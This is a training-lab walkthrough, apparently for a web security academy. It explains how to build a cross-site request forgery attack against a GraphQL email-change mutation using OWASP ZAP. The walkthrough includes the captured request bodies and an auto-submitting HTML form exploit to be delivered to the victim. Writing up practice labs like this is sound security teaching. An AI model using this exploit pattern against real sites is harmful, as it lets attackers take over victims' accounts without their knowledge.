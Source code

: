 # Lab: Performing CSRF exploits over GraphQL [OWASP Zed Attack Proxy]

Access the lab in ZAP's browser and log in with credentials `wiener:peter`. Update your email and check __History__ tab in ZAP for the latest `POST /graphql/v1` request. This should be the request body:

```json
{"query":"\n    mutation changeEmail($input: ChangeEmailInput!) {\n        changeEmail(input: $input) {\n            email\n        }\n    }\n","operationName":"changeEmail","variables":{"input":{"email":"attacker@fakemail.com"}}}
```

Right-click the request and select "Open in Requester Tab". Use the Method dropdown under the Request panel and switch to `GET` and then back to `POST`. Notice that `Content-Type: x-www-form-urlencoded` appeared in the headers. But the request body that is present is no longer necessary, change it with the following:

```
query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
```

In the above request body or __query__ there are three parameters with values. Go to __Tools__ > __Encode/Decode/Hash__ to URL decode each of the values and then encode as HTML. 

> NOTE: change the email before encoding the value of __`variables`__ as HTML!

Now place the resulting HTML encoded strings in the `<input value="">` attributes next to their parameter names, respectively:

```html
<html>
  <form action="https://YOUR-LAB-ID.web-security-academy.net/graphql/v1" method="POST">
    <input type="hidden" name="query" value="YOUR-HTML-ENCODED-STRING" />
    <input type="hidden" name="operationName" value="YOUR-HTML-ENCODED-STRING" />
    <input type="hidden" name="variables" value="YOUR-HTML-ENCODED-STRING" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</html>
```

Go to the __exploit server__ and paste the above CSRF PoC in the "Body" input. Click "Deliver exploit to victim" to solve the lab.


